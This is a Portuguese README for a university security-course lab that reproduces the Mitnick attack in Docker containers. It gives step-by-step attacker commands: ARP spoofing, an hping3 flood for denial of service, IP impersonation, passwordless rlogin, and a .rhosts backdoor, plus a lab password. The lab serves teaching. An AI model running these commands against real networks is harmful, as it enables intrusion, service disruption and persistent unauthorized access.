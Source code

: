 # Mitnick Attack

## Contexto

Este é o trabalho para a disciplina de Segurança Computacional da Universidade Federal do Paraná. O objetivo é reproduzir o ataque de Kevin Mitnick e demonstrar que é possível obter acesso a uma rede interna sem a necessidade de um ataque de força bruta.

## [Entendendo o ataque de Mitnick](https://seedsecuritylabs.org/Labs_16.04/PDF/Mitnick_Attack.pdf)

***

## Entendendo nossa versão do ataque

### estrutura geral

Nossa topologia consistirá de 3 containers docker:
    1. [attacker](attacker/Dockerfile)
    2. [trusted_server](trusted-server/Dockerfile)
    3. [x-terminal](xterminal/Dockerfile)

Os três containers estão na mesma rede e conseguem se enxergar. Entretanto, existe uma relação de confiança entre o trusted_server e o x-terminal. O x-terminal é um terminal que só pode ser acessado, sem a necessidade de senha, a partir do trusted_server.

O sistema de acesso remoto será feito usando rlogin.

### usuários

A máquina x-terminal possui um usuário chamado "fontoura" com senha "fontoura".

### attacker

A máquina attacker é uma máquina que está tentando acessar o x-terminal. Ela não tem acesso direto ao x-terminal mas tem acesso a rede interna.

### trusted_server

A máquina trusted_server é uma máquina que tem acesso direto ao x-terminal. Ela é a única máquina que pode acessar o x-terminal.

A largura de banda do trusted_server é limitada, para simular uma interface de rede lenta e sucetível a ataques de negação de serviço.

### Ataque

O ataque será feito em 5 etapas:

1. [Arp Spoofing](./Readme.md#realizando-o-arp-spoofing)
2. [Negação de serviço](./Readme.md#realizando-a-negação-de-serviço)
3. [Personificação](./Readme.md#realizando-a-personificação)
4. [Invasão](./Readme.md#invadindo)
5. [Backdoor](./Readme.md#configurando-o-backdoor)

***

## Requisitos

- docker
- docker compose

***

## Como executar

1. Iniciando as máquinas

    ```bash
    docker-compose up -d
    ```

2. Acessando as máquinas

    Para acessar cada uma das máquinas. Em três terminais diferentes, execute os seguintes comandos, um em cada terminal:

    ```bash
    docker exec -it trusted_server bash
    docker exec -it attacker bash
    docker exec -it victim bash
    ```

    Para explorar a relação de confiança entre o trusted_server e o x-terminal, execute o seguinte comando no terminal do trusted_server:

    ```bash
    rlogin -l fontoura x-terminal
    ```

    Isso fará com que o usuário fontoura seja logado no x-terminal sem a necessidade de uma senha.

    Agora, para verificar que o x-terminal não pode ser acessado por outras máquinas, execute o seguinte comando no terminal do attacker:

    ```bash
    rlogin -l fontoura x-terminal
    ```

    O comando acima tentará realizar o login no x-terminal. Como o attacker não é o trusted_server, o login necessitará de uma senha.

3. Realizando o arp spoofing

    Para realizar o arp spoofing, execute o seguinte comando no terminal do attacker:

    ```bash
    arpspoof -i eth0 -t 172.28.1.2 172.28.1.3
    ```

    O comando acima faz com que o attacker se passe pelo trusted_server para o x-terminal. Envenenando a tabela arp do x-terminal.

    É possível verificar que o arp spoofing foi realizado com sucesso executando o seguinte comando no terminal do x-terminal:

    ```bash
    arp -a
    ```

    Podemos ver que o trusted-server está na tabela arp do x-terminal com o endereço MAC do attacker.

4. Realizando a negação de serviço

    Para realizar a negação de serviço, execute o seguinte comando no terminal do attacker:

    ```bash
    hping3 --flood --rand-source 172.28.1.3
    ```

    O comando fará um flood de pacotes no trusted_server. O objetivo é saturar a largura de banda do trusted_server, fazendo com que ele não consiga mais responder as requisições do x-terminal ou se comunicar com a rede.

5. Realizando a personificação

    Para realizar a personificação, iremos mudar o IP do attacker para o IP do trusted_server. Para isso, execute o seguinte comando no terminal do attacker:

    ```bash
    ifconfig eth0 172.28.1.3
    ```

    Agora, o attacker está se passando pelo trusted_server para o x-terminal.

6. Invadindo

    Para verificar que a personificação foi realizada com sucesso, podemos tentar realizar o login sem senha em x-terminal. A partir do attacker, execute o seguinte comando:

    ```bash
    rlogin -l fontoura x-terminal
    ```

    O comando acima tentará realizar o login no x-terminal. Como o attacker está se passando pelo trusted_server, o login será realizado com sucesso e o usuário fontoura será logado no x-terminal sem a necessidade de uma senha.

7. configurando o backdoor

    Para abrir a conexão através do rlogin ao x-terminal para o attacker, execute o seguinte comando no terminal do x-terminal:

    ```bash
    echo '172.28.1.4 root' >> /home/fontoura/.rhosts
    ```

    Isso permitirá que o attacker se logue no x-terminal sem a necessidade de uma senha.

8. Conclusão

    Com o backdoor configurado, podemos retornar o IP do attacker para o seu IP original. Para isso, execute o seguinte comando no terminal do attacker:

    ```bash
    ifconfig eth0 172.28.1.4
    ```

    Para verificar que o backdoor está funcionando, execute o seguinte comando no terminal do attacker:

    ```bash
    rlogin -l fontoura x-terminal
    ```

    Se o backdoor estiver funcionando, o usuário fontoura será logado no x-terminal sem a necessidade de uma senha.

    Para conferir que os pacotes não estão passando pelo trusted_server, execute o seguinte comando no terminal do attacker:

    ```bash
    tcpdump -i eth0 
    ```

***

## Roadmap

- [X] colocar as maquinas na mesma rede
- [X] derrubar o trusted server
- [X] personificar ip e mac do trusted server
- [X] fazer rlogin no x-terminal através do attacker
- [ ] conferir se os pacotes estão sendo enviados para o trusted server
- [ ] fechar o x-terminal para ser acessado apenas pelo trusted server
- [ ] fazer o backdoor de forma que fique aberto para toda a rede
